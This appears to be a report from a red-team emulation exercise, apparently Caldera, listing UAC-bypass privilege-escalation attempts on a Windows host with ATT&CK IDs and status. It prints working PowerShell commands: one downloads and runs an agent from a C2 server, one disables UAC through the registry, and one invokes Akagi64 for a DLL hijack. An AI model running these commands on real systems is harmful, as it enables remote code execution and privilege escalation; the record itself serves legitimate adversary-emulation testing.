 
###   Description: Bypass user account controls - medium


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 3316

  Start: 2024-09-13T17:45:27Z

  Command: 
```powershell
$url="http://172.31.10.226:8888/file/download"; $wc=New-Object System.Net.WebClient; $wc.Headers.add("platform","windows"); $wc.Headers.add("file","sandcat.go"); $data=$wc.DownloadData($url); $name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"",""); [io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);$job = Start-Job -ScriptBlock { Import-Module -Name .\Bypass-UAC.ps1; Bypass-UAC -Command "C:\Users\Public\$name.exe -group red"; };Receive-Job -Job $job -Wait;
```


## Host: ACME-WS-PLU (paw: hkrmxr)

###   Description: Set a registry key to allow UAC bypass


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Success

  PID: 5012

  Start: 2024-09-13T17:39:52Z

  Command: 
```powershell
New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name EnableLUA -PropertyType DWord -Value 0 -Force
```


###   Description: Dll Hijack of WOW64 logger wow64log.dll using Akagi.exe


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 920

  Start: 2024-09-13T17:41:56Z

  Command: 
```powershell
.\Akagi64.exe 30 C:\Windows\System32\cmd.exe
```
